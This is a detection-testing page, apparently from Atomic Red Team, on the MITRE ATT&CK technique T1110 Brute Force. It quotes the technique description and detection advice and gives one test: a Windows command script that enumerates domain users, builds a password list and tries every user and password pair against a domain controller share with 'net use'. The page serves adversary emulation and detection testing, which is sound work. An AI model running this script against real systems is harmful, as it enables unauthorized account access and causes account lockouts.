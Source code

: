 # T1110 - Brute Force
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)
<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

Credential Dumping to obtain password hashes may only get an adversary so far when Pass the Hash is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

A related technique called password spraying uses one password, or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Detection: It is difficult to detect when hashes are cracked, since this is generally done outside the scope of the target network. 

Monitor authentication logs for system and application login failures of Valid Accounts. If authentication failures are high, then there may be a brute force attempt to gain access to a system using legitimate credentials.

Also monitor for many failed authentication attempts across various accounts that may result from password spraying attempts.

Platforms: Linux, macOS, Windows

Data Sources: Authentication logs

Permissions Required: User

Contributors: John Strand</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)


<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
    | input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
    | remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
    | domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!
```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
<br/>
